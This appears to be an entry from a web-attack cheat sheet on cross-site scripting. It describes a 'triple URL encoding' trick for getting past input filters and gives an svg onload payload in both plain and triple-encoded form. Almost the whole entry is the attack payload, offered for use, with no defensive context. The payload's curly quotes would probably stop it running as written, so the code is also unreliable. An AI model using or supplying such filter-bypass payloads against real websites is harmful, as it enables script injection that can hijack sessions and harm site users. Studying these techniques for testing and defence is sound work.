 # Cross Site Scripting

## Triple URL Encoding
  - Encode the payload thrice using URL encoding.
Restricted:
```CSS
"><svg onload=confirm(‘XSS’)> 
```
Bypassed:
```CSS
%252522%25253E%25253Csvg%252520onload%25253Dconfirm%252528%2525E2%252580%252598XSS%2525E2%252580%252599%252529%25253E
```
---
